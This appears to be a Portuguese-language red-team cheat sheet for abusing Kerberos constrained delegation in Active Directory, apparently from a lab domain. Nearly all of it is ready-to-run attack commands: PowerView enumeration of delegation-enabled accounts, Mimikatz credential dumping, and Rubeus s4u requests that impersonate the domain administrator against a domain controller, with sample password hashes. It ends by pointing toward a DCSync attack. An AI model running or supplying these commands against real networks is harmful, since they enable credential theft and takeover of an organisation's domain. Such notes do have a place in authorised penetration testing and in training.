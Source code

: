 ```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties * | select samaccountname, msDS-AllowedToDelegateTo | Out-String -Width 4096
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties * | select samaccountname, msDS-AllowedToDelegateTo | fl | Out-String -Width 4096
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
ENCONTRAR APENAS COMPUTADORES (POWERVIEW)
```
$FormatEnumerationLimit=-1
Get-DomainComputer -TrustedToAuth | select samaccountname, msds-allowedtodelegateto, useraccountcontrol  | fl | Out-String -Width 4096
Get-DomainComputer -TrustedToAuth
```
ENCONTRAR APENAS USUARIOS (POWERVIEW)
```
$FormatEnumerationLimit=-1
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto, useraccountcontrol  | fl | Out-String -Width 4096
Get-DomainUser -TrustedToAuth
```
##### CONSTRAINED DELEGATION (USUARIO) - NO RUBEUS, GERAR O HASH RC4 DA SENHA DO USUARIO: yamcha 1A9D94FDE4F369D53FA5515D1D6BEEE0
```
rubeus.exe hash /password:123qwe..
```
OU PEGAR O HASH DIRETO COM O MIMIKATZ:
```
Privilege::debug
Sekurlsa::logonpasswords
```
##### CONSTRAINED DELEGATION (USUARIO) - NO RUBEUS, SOLICITAR TGS PARA A MAQUINA QUE TEMOS ACESSO PARA OS SERVICOS AUTORIZADOS NO AD: (cifs/TECH-DC01.TECH.LOCAL)
```
rubeus.exe s4u /user:yamcha /rc4:1A9D94FDE4F369D53FA5515D1D6BEEE0 /impersonateuser:"administrator" /msdsspn:"cifs/TECH-DC01.TECH.LOCAL" /ptt
```
SOLICITAR TICKET PARA OUTROS SERVIÇOS
```
rubeus.exe s4u /user:yamcha /rc4:1A9D94FDE4F369D53FA5515D1D6BEEE0 /impersonateuser:"administrator" /msdsspn:"cifs/TECH-DC01.TECH.LOCAL" /altservice:cifs,host,ldap /ptt 
```
##### CONSTRAINED DELEGATION (COMPUTADOR) - PEGAR A SENHA NTLM DO COMPUTADOR LSA SECRETS: SERVER02$ e219f089ce0807399b81ed7950c64e2b
PEGAR O HASH DIRETO COM O MIMIKATZ:
```
Privilege::debug
Sekurlsa::logonpasswords
```
##### CONSTRAINED DELEGATION (COMPUTADOR) - NO RUBEUS, SOLICITAR TGS PARA A MAQUINA QUE TEMOS ACESSO PARA OS SERVICOS AUTORIZADOS NO AD: (cifs/TECH-DC01.TECH.LOCAL)
```
rubeus.exe s4u /user:SERVER02$ /rc4:e219f089ce0807399b81ed7950c64e2b /impersonateuser:"administrator" /msdsspn:"cifs/TECH-DC01.TECH.LOCAL" /ptt
```
SOLICITAR TICKET PARA OUTROS SERVIÇOS
```
rubeus.exe s4u /user:SERVER02$ /rc4:e219f089ce0807399b81ed7950c64e2b /impersonateuser:"administrator" /msdsspn:"cifs/TECH-DC01.TECH.LOCAL" /altservice:host,http,wsman,rpcss,ldap,cifs /ptt
```
##### CONSTRAINED DELEGATION - OPÇÕES DE ATAQUE
- OPÇÃO 1 - FAZER O ATAQUE DCSYNC